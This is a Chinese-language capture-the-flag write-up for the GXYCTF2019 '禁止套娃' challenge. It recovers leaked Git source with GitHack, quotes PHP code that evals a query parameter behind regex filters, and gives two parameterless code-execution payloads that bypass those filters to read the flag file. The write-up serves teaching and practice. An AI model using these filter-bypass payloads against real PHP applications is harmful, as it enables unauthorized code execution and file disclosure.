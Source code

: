 # [GXYCTF2019]禁止套娃 1

## 知识

GitHack的使用
```kali-linux
python2 GitHack.py http://19c769ac-a07c-49f2-bb99-8b1f08b92dfa.node5.buuoj.cn:81/.git
```

## WP

### 一

进入环境，只有一串字符 查看源代码 抓包 什么都没有发现 尝试进行目录爆破 也只是爆出了index.php

然后 尝试直接使用 php伪协议进行一个 flag 读取 但都失败了。在这种情况下，肯定是服务器进行了一个过滤。所以，可能是源码泄露。

使用GitHack，得到源码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```
最吸引眼球的就是 eval的一句话木马，题目又加了好多过滤限制了REC

首先是 php伪协议 data协议 filter协议 都不能使用了

然后该网站使用了正则匹配 其实这就是无参数的rce
- 如果如果’;'===preg_replace(…)，那么就执行exp传递的命令
- (?R)? : (?R)代表当前表达式，就是这个(/[a-z,_]+((?R)?)/)，所以会一直递归，?表示递归当前表达式0次或1次（若是(?R)*则表示递归当前表达式0次或多次，例如它可以匹配a(b(c()d()))）
>无参数REC 一般有三种绕过姿势：
>
>gettallheaders（）
> 
>get_defined_vars()
> 
>session_id()

紧接着 又是一次黑名单过滤，很多的关键字都被黑掉了(带有get 函数的，肯定是不能用了)

但还有一个函数 scandir 以扫描当前目录下的文件

`?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));`

>highlight_file() 函数对文件进行语法高亮显示，本函数是show_source() 的别名
> 
>next() 输出数组中的当前元素和下一个元素的值。
>
>array_reverse() 函数以相反的元素顺序返回数组。(主要是能返回值)
>
>scandir() 函数返回指定目录中的文件和目录的数组。
>
>pos() 输出数组中的当前元素的值。
>
>localeconv() 函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是"."。

loacleconv 函数会固定返回一个 . 然后pos将我们获得的 .返回到我们构造的 payload 使得 scandir能够返回当前目录下的数组（换句话说，就是读出当前目录下的文件） 

array_reverse()以相反的顺序输出（目的是以正序输出查询出来的内容）然后 next 提取第二个元素（将.过滤出去），最后用highlight_file()给显示出来。

### 二

上面 的正则过滤中 其实并没有过滤掉 session_id()

所以我们可以使用 session_id来获取 flag

session_id() 可以用来获取/设置 当前会话 ID。

在我们使用 session_id()的时候 需要使用session_start()来开启session会话

`?exp=highlight_file( session_id(session_start()));`

使用session之前需要通过session_start()告诉PHP使用session，php默认是不主动使用session的。

session_id()可以获取到当前的session id。

![](https://s21.ax1x.com/2024/04/24/pkCDI5F.png)

